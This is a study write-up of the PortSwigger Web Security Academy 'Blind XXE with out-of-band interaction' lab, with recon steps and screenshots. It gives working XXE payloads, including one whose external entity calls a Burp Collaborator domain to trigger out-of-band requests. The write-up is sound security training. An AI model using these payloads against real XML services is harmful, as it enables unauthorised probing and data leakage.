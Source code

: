 ```yaml
---
title: 'Lab: Blind XXE with out-of-band interaction'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/Blind XXE"
---
```


# Lab: Blind XXE with out-of-band interaction
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
* Goal: To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint:

## [Background](https://portswigger.net/web-security/xxe/blind)
> 有兩種廣泛的方法可以找到和利用Blind XXE 漏洞：
>
>您可以觸發out-of-band網絡交互，有時會在交互數據中泄露敏感數據。
>您可以通過錯誤消息包含敏感數據的方式觸發 XML 解析錯誤。

## Recon
1. Declare a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/BJpoMFLE2.png)
    As the result above, it seems can accept a new entity, then we can use it in `xml`
    
    ---
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/HkO4QYUEn.png)

2. So..., we can use out-of-band server try to leak some information


## Exp
1. Use Burp Collaborator
![](https://hackmd.io/_uploads/Sk3lDtIVh.png)
And copy the collaborator's payloads
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://s92t6q0ljljd7fttguns4mrdy44wsl.burpcollaborator.net"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    
2. Result
    ![](https://hackmd.io/_uploads/S1W7YKIV3.png)

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/r13iWF84h.png)
:::

## Reference
[Lab: Blind XXE with out-of-band interaction](https://www.cnblogs.com/Zeker62/p/15190054.html)
[XXE Lab Breakdown: Blind XXE with out-of-band interaction](https://youtu.be/T3eo0CtYzYo)